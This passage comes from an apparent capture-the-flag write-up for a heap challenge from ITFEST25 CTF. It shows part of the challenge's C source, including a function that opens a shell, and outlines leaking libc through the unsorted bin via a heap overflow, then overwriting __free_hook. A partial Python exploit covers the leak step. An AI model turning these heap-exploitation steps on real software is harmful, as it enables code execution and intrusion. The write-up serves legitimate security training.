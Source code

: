 ```c
            case 5:
                exit(0);
            default:
                puts("choice the right number!");
                break;
        }
    }
    return 0;
}

int winner() {
    puts("Welcome Hacker");
    return system("/bin/sh");
}
```

## Summary

Leak libc with `unsorted bin` using `heap overflow` then overwrite `__free_hook` to `winner` function and call `free`

## Solution
Given the `soal` file with `libc.so.6`. First, I ran `pwninit` for patching, then start the program and it gave me four options:

![alt](../../../img/CTFNational/ITFEST25_CTF/Menu.png)

1. Request Page, which will request the index and size for malloc.
2. Fill Page, which will request the index and input data.
3. Show Page, which will display the contents of the index.
4. Remove Page, which will free the given index.

It's also important to note that the size is limited to 0x420, and the number of indexes is limited to 3.

There was a `heap overflow` during fill page. To get a libc leak, you can use a large allocation, where the free value goes to the `unsorted bin`. To view the `free` index, edit the previous index.

```python
alloc(0, 0x18)
alloc(1, 0x420) # Unsorted bin
alloc(2, 0x18) # Guard
free(1)
edit(0, b"A"*0x20) # Heap overflow
show(0)
```
